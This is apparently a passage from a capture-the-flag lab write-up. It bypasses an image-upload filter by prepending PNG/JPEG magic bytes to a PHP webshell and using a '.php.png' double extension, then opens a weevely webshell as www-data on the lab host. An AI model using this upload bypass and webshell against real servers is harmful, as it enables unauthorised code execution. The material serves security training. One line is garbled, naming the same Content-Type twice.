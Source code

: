 But changing the Content-Type from `application/x-php` to `application/x-php`
didn't change anything.

The name `Magic` is maybe because there is a magic bytes check and this message
is displayed when content type, extension and magic byte don't match.

Let's check the signature of jpeg and png:

```
$ xxd -l 12 ~/Pictures/hacker_logo.jpg     
00000000: ffd8 ffe0 0010 4a46 4946 0001            ......JFIF..
$ xxd -l 8 ~/Pictures/rawsec/logo5_50x40.png 
00000000: 8950 4e47 0d0a 1a0a                      .PNG....
```

We can also check
[the list on Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
because jpeg supports 2 other signatures.

We can store the signatures in files:

```
$ echo -n "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a" > png_signature
$ echo -n "\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01" > jpg_signature
```

Then let's try to prepend the PNG signature to the webshell.

```
$ cat png_signature agentcyfun.php > agent_png.png
$ cat jpg_signature agentcyfun.php > agent_jpg.jpg
```

Let's upload again, this time we are not spotted. The image is
successfully uploaded to http://10.10.10.185/images/uploads/agent_png.png but
as it is served as a png, the PHP is not interpreted.
Let's see if we send a png extension and a php Content-Type.

This is accepted too. But it is still served as a png. I'll try to put a php
extension but I think we will be caught by the extension whitelist.
Indeed we were spotted.

So let's try the double extension (`.png.php`) -> spotted.
Let's try a null byte injection (`.php\00.png`) even if I don't believe it will works.

It tells me `00.png` was uploaded (http://10.10.10.185/images/uploads/00.png)
but it's served as png. Let's see if `agent_png.php` was created
(http://10.10.10.185/images/uploads/agent_png.php): no.

What if we try the double extension without null byte but in the other way (`.php.png`).
It seems http://10.10.10.185/images/uploads/agent_png.php.png is interpreted as PHP!

## Webshell

```
$ weevely terminal http://10.10.10.185/images/uploads/agent_png.php.png cyfun

[+] weevely 4.0.1

[+] Target:     10.10.10.185
[+] Session:    /home/cyfun/.weevely/sessions/10.10.10.185/agent_png.php_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/Magic/images/uploads $ 
```
